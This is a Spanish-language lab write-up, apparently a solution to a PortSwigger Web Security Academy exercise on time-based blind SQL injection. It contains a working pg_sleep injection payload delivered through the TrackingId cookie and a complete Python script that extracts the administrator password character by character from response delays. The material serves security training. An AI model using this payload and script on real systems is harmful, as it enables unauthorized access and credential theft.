




## Blind SQL injection with time delays and information retrieval

<p align="center">
  
</p>

El concepto es el mismo que en el ejercicio anterior mezclado con los de conditional, dependiendo de si la web realiza el tiempo de espera podemos extraer letra a letra la información que necesitamos.

Primero vamos a comprobar la longitud de contraseña del usuario Administrador, mediante el siguiente Payload:

```http
'||(select case when (1=1) then pg_sleep(10) else pg_sleep(0) end from users where username='administrator' and length(password)=20)-- -
```

<p align="center">
  
</p>

Ahora sabemos que la longitud de contraseña es de 20 caracteres, por lo que vamos a crear un script en python3 que nos saque la contraseña por fuerza bruta. Primero nos montamos el entorno virtual:


```bash
python3 -m venv my_venv
source ./my_venv/bin/activate
which python3
```

<p align="center">
  
</p>

Instalamos las dependencias termcolor, requests y pwntools:

```python
pip3 install pwntools
pip3 install requests
pip3 install termcolor
```

Y ahora creamos el siguiente Script:

```python
#!/usr/bin/python3

from pwn import *
from termcolor import colored
import requests, signal, sys, time, string

# Función para controlar la salida con CTRL + C
def def_handler(sig, frame):
    print(colored("\n\n [!] Saliendo...\n", 'red'))
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Variables globales del programa (Se eliminó el espacio en blanco de la URL)
main_url = 'https://0a120044032e50838331f01d00400028.web-security-academy.net/filter?category=Gifts'
characters = string.ascii_lowercase + string.digits

# Función principal del programa (SQLI)
def makerequest():

    password = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Password:")
    
    # Rango de longitud de la contraseña (1 a 20)
    for position in range(1, 21):
        for character in characters:
            
            # Se utiliza F-string para inyectar {position} y {character} dinámicamente
            # Se corrigieron las comillas dobles repetidas de la cookie base
            sqli_payload = f"CGeWejUTaOB2q3mo'||(select case when substring(password,{position},1)='{character}' then pg_sleep(1.5) else pg_sleep(0) end from users where username='administrator')-- -"
            
            cookies = {
                'TrackingId' : sqli_payload,
                'session' : '890MsjqC2OD6TyAIUUKhFaDeOeUrHg5A'
            }
            
            p1.status(f"Probando {character} en posición {position}")
            
            start_time = time.time()
            r = requests.get(main_url, cookies=cookies)
            stop_time = time.time()
            
            # Verificación del tiempo de respuesta (Time-based)
            if stop_time - start_time >= 1.5:
                password += character
                p2.status(password)
                break
    
if __name__ == '__main__':
    makerequest()
```

Nos da la contraseña:

<p align="center">
  
</p>

Con la contraseña podemos acceder a la web como administrator:

<p align="center">
  
</p>


